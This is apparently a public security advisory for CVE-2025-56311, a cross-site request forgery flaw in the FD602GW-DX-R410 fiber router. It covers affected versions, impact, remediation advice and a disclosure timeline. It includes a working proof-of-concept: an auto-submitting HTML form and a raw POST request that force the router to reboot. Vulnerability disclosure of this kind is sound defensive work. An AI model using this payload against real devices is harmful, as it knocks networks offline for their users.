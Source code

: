 # fd602gw-dx-r410-csrf-advisory
CSRF vulnerability in FD602GW-DX-R410 router allows remote attackers to reboot the device via a crafted POST request to /boaform/admin/formReboot when an admin is authenticated.


# CVE-2025-56311: Security Advisory – CSRF Vulnerability in FD602GW-DX-R410 Router Reboot Function

Proof of Concept and Security Advisory for a Cross-Site Request Forgery (CSRF) vulnerability in the FD602GW-DX-R410 fiber router’s admin interface (Firmware V2.2.14). The advisory outlines the impact, attack vector, and recommendations for remediation.

---

## Overview

A Cross-Site Request Forgery (CSRF) vulnerability was discovered in the FD602GW-DX-R410 fiber router’s web-based admin console (Firmware V2.2.14). The `/boaform/admin/formReboot` endpoint allows POST requests to trigger a full device reboot without CSRF tokens or origin validation. If an authenticated administrator visits a malicious page, the router can be remotely rebooted without consent.

* **CVE ID:** CVE-2025-56311
* **Advisory Publication Date:** July 2025
* **Discovered by:** Hasanka Amarasinghe (Independent Security Researcher)
* **Vendor:** Shenzhen C-Data Technology Co., Ltd.
* **Product Affected:** FD602GW-DX-R410 Fiber Router
* **Firmware Version:** V2.2.14 (Build.1918.241111)
* **Hardware Version:** R410.1B
* **Bootloader Version:** V3.7-2312181457
* **Web Server:** Boa/0.93.15
* **Access Vector:** Remote (Authenticated admin must be logged in)
* **Severity:** Medium
* **CVSS v3.1 Base Score:** 5.4 (Medium)

--- 

## Affected Product

* **Device:** FD602GW-DX-R410 Fiber Router
* **Firmware:** V2.2.14 (Build.1918.241111)
* **Component:** Reboot Handler - `/boaform/admin/formReboot`
* **Web Server:** Boa/0.93.15

---

## Vulnerability Details

* **Type:** Cross-Site Request Forgery (CSRF)
* **Attack Vector:** Remote (admin must be logged in to their session)
* **Authentication:** None required for the attacker (admin session required on victim browser)
* **Impact:** Unauthorized reboot of the device
* **State Persistence:** Stateless session, likely tracked via IP or internal session tokens

---

## Proof of Concept (PoC)

### CSRF Payload (HTML)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Pro -->
  <body>
    <form action="http://192.168.1.1/boaform/admin/formReboot" method="POST">
      <input type="hidden" name="postSecurityFlag" value="+65535" />
      <input type="submit" value="Submit" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### HTTP Request

```http
POST /boaform/admin/formReboot HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

postSecurityFlag=+65535
```

### Response

HTTP 200 OK; Router reboots immediately.

---

## Recommendations

* Implement CSRF tokens and strict Origin/Referer validation on all admin endpoints.
* Invalidate stale or orphaned sessions and bind sessions to secure cookies.
* Consider CAPTCHA or confirmation prompts before executing destructive actions like reboot.
* Restrict admin interface access to trusted IPs or internal networks only.

---

## Attack Vector

* Requires the router administrator to be authenticated (logged in).
* An attacker lures the victim to visit a malicious webpage which silently triggers a POST request to the reboot endpoint.
* The router accepts the forged request and reboots immediately, causing denial of service.

---

## Impact

* Denial of service due to forced reboot.
* Loss of network availability for all connected users.
* Possibility to chain with other issues (e.g., session hijack or XSS) to elevate impact.

---

## Disclosure Timeline

| Date     | Action                                      |
| -------- | ------------------------------------------- |
| Jun 2025 | Vulnerability discovered                    |
| Jun 2025 | Attempted responsible disclosure (no reply) |
| Jul 2025 | CVE ID requested from MITRE                 |
| Jul 2025 | Advisory prepared and pending publication   |
| Sep 2025 | CVE Assigned, Advisory made public          |

---

## References

* Vendor: Shenzhen C-Data Technology Co., Ltd.
* Device: FD602GW-DX-R410
* Firmware: V2.2.14
* GitHub Advisory: https://github.com/wrathfulDiety/CVE-2025-56311

---

## Disclaimer

This advisory is provided for educational and security awareness purposes. The author bears no responsibility for misuse. All testing was performed in a controlled environment.


